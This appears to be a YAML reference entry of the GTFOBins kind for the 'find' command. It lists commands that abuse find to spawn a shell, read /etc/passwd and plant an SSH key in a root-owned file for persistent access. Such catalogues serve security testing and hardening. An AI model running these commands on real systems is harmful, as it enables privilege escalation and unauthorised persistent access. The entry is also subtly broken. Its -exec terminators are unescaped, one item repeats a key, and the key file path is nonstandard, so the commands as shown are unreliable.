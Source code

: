 ```yaml
---
functions:
  shell:
    - description: Can be used to execute arbitrary commands on a system and spawn shells either directly or otherwise.
      code: |
        find . -name i_do_not_exist -or -exec perl -e 'exec sh' ; -quit
      code: |
        find . -exec /bin/sh ; -quit
  command:
    - description: Can be used to execute arbitrary commands on a system.
      code: |
        find . -name i_do_not_exist -or -exec ls ; -quit
  file-read:
    - description: Reading of files is possible by executing cat.
      code: |
        find /etc/passwd -exec cat {} ;
  file-write:
    - description: Find has various capabilities to write to files and it is recommended to read the manual for more details, especially its fprintf and 'UNUSUAL FILENAMES' sections.
      code: |
        find . -fprintf /root/.authorized_keys 'ssh-rsa ...' -quit
---
```


